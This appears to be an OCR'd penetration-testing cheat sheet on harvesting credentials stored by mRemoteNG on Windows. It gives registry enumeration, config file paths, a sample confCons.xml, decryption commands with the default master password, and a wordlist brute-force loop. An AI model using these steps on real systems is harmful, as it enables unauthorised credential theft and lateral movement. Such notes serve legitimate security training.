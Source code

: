 ### Registry-Based Enumeration
```powershell
# Comprehensive installed programs list:
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

## 🔧 mRemoteNG Exploitation

### Configuration File Location
```cmd
# Default mRemoteNG config location:
%USERPROFILE%\APPDATA\Roaming\mRemoteNG\confCons.xml

# Check for mRemoteNG installation:
ls "C:\Program Files\mRemoteNG"
ls C:\Users\*\AppData\Roaming\mRemoteNG
```

### Configuration File Structure
```xml
<!-- Example confCons.xml with default master password -->
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" Port="3389" />
</mrng:Connections>
```

### Password Decryption
```bash
# Default master password decryption (hardcoded: "mR3m"):
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig=="

# Result: ASDki230kasd09fk233aDA

# Custom master password decryption:
python3 mremoteng_decrypt.py -s "<encrypted_password>" -p admin

# Brute force master password:
for password in $(cat /usr/share/wordlists/fasttrack.txt); do 
    echo $password
    python3 mremoteng_decrypt.py -s "<encrypted_password>" -p $password 2>/dev/null
done
```
